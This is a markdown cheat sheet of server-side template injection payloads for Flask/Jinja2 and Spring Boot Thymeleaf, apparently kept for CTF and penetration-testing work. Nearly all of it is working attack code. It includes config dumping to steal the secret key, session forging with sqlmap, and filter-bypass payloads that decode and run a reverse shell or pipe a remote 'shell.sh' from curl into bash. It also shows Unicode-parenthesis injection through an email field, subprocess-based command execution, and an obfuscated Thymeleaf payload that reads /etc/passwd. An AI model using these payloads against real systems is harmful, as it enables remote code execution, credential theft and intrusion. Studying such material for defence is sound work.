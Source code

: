 # Navigation
- [**Flask-Jinja2**](#Flask-Jinja2)
- [**SpringBoot**](#SpringBoot)
# Flask-Jinja2 
Get the secret key
```txt
{{ config }}
```
Decrypt the cookie
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
SQLi in flask session with sqlmap
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
Bypass filtered ->  `'` `_` `.` `{{}}` `if` `for` 
```python
{% with abuqasem=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo <Base64EncodedReverseShellCommand> | base64 -d | bash -i")["read"]() %}abuqasem{% endwith %}
```
To exploit SSTI by image upload
```python
{% with abuqasem=request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("curl IP/shell.sh | bash")["read"]() %}
{{ abuqasem }}
{% endwith %}
```
Bypass filtered -> `()`
```python
# This was injected in an email field
"{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@deafcon.com
```
> Link: https://unicode-search.net/unicode-namesearch.pl?term=PARENTHESIS

Subprocess.Popen
```python
{{ [].__class__.__mro__[-1].__subclasses__()[233](["/usr/local/bin/score","9b9400f8-e969-47ca-9965-c7516f73d0e7"]).communicate() }}

{{ [].__class__.__mro__[-1].__subclasses__()[233]("whoami",shell=True,stdout=-1).communicate() }}
```
> **Note**: Try playing with stdout descriptor to get ouptut.

### Further reading
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)  
-  [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)  
-  [https://jinja.palletsprojects.com/en/2.10.x/templates](https://jinja.palletsprojects.com/en/2.10.x/templates)/
 - [https://book.hacktricks.xyz/pentesting/pentesting-web/flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)
# SpringBoot
## Thymleaf-engine
```java
Variable expression ： ${...}\
Select variable expression ： *{...}
Message expression ： #{....}
link URL expression ： @{...}
Fragment Expression ： ~{...}
```
- Read `/etc/passwd`
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
## References
- https://javamana.com/2021/11/20211121071046977B.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd